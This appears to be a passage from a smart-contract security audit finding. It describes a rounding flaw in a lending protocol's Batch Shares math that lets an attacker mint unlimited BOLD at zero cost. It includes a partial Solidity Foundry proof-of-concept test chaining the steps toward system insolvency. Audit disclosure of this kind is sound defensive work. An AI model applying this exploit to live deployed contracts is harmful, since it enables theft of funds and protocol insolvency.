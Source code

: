 The preconditions are pretty specific and can technically be blocked by anyone joining a specific Batch

However, the cost of the attack is zero, the attack can be setup by all actors at all times and the result of the attack is the ability to mint an infinite amount of bold a zero cost to the attacker, leading me to believe that this is a high severity impact that requires rethinking the Batch Shares math


**Complete Proof Of Concept**

The following POC chains all of the concepts above, as well as from #41 and #40 to perform free borrows that will cause the system to go underwater

```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.18;

import "./TestContracts/DevTestSetup.sol";

contract Redemptions is DevTestSetup {


    bool WITH_INTEREST = true; // Do we need to tick some interest to cause a rounding error?

    // forge test --match-test test_alex_batchRebaseToSystemInsolvency -vv
    function test_alex_batchRebaseToSystemInsolvency() public{
        // === EXTRA SETUP === //
        // Open Trove
        priceFeed.setPrice(2000e18);
        // Extra Debt (irrelevant / Used to not use deal)
        uint256 CTroveId = openTroveNoHints100pct(C, 100 ether, 100e21, MAX_ANNUAL_INTEREST_RATE);
        vm.startPrank(C);
        boldToken.transfer(A, boldToken.balanceOf(C));
        vm.stopPrank();


        // === 1: Setup Batch Rebase === ///

        // Open 2 troves so we get enough interest
        // 1 will be redeemed down to 1 wei
        uint256 ATroveId = openTroveAndJoinBatchManager(A, 100 ether, MIN_DEBT, B, MAX_ANNUAL_INTEREST_RATE);
        // Sock Puppet Trove | Opened second so we can redeem this one | We need to redeem this one so we can inflate the precision loss
        uint256 BTroveId = openTroveAndJoinBatchManager(B, 100 ether, MIN_DEBT, B, MAX_ANNUAL_INTEREST_RATE);


        // MUST accrue to rebase shares
        // Limit to one block so this attack is basically unavoidable
        if(WITH_INTEREST) {
            vm.warp(block.timestamp + 12);
        }


        LatestBatchData memory b4Batch = troveManager.getLatestBatchData(address(B));

        // TODO: Open A, Mint 1 extra (forgiven to A)
        _addOneDebtAndEnsureItDoesntMintShares(ATroveId, A); /// @audit MED impact

        LatestBatchData memory afterBatch = troveManager.getLatestBatchData(address(B));

        assertEq(b4Batch.entireDebtWithoutRedistribution + 1, afterBatch.entireDebtWithoutRedistribution, "Debt is credited to batch");
```